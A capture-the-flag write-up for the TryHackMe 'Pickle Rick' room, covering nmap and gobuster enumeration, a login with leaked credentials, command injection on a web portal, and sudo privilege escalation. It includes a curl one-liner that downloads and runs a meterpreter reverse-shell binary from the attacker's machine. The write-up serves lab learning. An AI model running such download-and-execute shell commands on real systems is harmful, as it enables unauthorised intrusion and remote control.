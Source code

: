 ```yaml
---
layout: solution
category: TryHackMe
contest_code: Web_Hacking_Fundamentals
contest_name: Web Hacking Fundamentals
problem_code: PICKLE_RICK
problem_name: Pickle Rick
comments: false
tags: web
date: 2021-08-16
---
```


### First a nmap scan was conducted to determine the running services on the machine. Turns out it was running apache (web service) and SSH
```
nmap -sV -sC 10.10.11.43
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/nmap.png)

‎


### The website was visited however, it turns out that nothing interesting was shown on the page until viewing the source code (inspect element) where we saw an username

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/result1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/result2.png)

‎


### Gobuster was used to find hidden web pages within the website. Then we found out that, there were few intresting directories and pages. Some of them were visited (login.php & robots.php) where it reveal some text and also a login page
```
gobuster dir -t 30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.11.43 -x php,html,txt
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/gobuster.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/login.png)

‎


### I attempted to sign in by using the username provided in the page source and trying the text found in robots.txt as the password which allowed me to gain entry to portal.php. This page allowed me to execute limited command on the machine

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/code_injection1.png)

‎


### By executing the `ls` command, I am able to see the flag, however certain commands cannot be executed like `cat`, `more`, `less`, `ncat` thus a reverse meterpreter shell was obtained by creating one and hosting it on port 80. `curl` command was executed on the webpage to download the meterpreter reverse tcp file from my machine for execution
```
cd /tmp && curl -O 10.11.21.149/shell.elf && chmod 777 ./shell.elf && ./shell.elf
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/create_shell.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/code_injection2.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/obtain_shell.png)

‎


### The following flags were found in the following locations

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/flags1.png)

‎


### The last step was to perform privilege escalation to get access to flags in the the root directory. We first attempted to see the permission of www-data by executing `sudo -l`. turns out he can execute sudo command without password thus allowing us to escalate to root

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/flags2.png)

